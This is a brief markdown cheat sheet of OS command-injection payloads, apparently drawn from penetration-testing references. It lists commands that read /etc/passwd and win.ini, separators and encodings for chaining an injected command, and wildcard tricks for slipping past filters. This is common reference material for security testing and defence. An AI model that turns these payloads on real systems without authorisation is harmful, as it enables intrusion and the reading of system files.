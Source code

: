 # Command Injection List

## Enumeration Command Injection

### Linux

```
cat /etc/passwd
strings /etc/passwd
while read line; do echo $line; done < /etc/passwd
while IFS= read -r line;do echo "$line"; done < /etc/passwd
while IFS=: read -r username password userid groupid comment homedir cmdshell;do echo "$username, $userid, $comment $homedir"; done < /etc/passwd
```

### Windows

```
type C:\windows\win.ini
```

## Chaining Commands

```
;
$;
a;
a);
&&
&
||
|
a|
a)|
#
`<command>`
$(<command>)
$(`<command>`)
${<command>}
\n
0x0A
0x0a
%0A
%0a
\r
\r\n
```

## Filter Evasion

```
/bin/cat /e??/p??s??
/bin/cat /e*/pa*wd
/bin/cat /et*/pa*wd
/bin/cat /et*/pa**wd
cat$u /etc$u/passwd
```
## References

- [PayloadsAllTheThings: Command Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

- [OS Command Injection tutorial – Part #1 (Basics and Filter Evasion)](https://0x80dotblog.wordpress.com/2021/07/28/os-command-injection-tutorial-part-1-basics-and-filter-evasion/)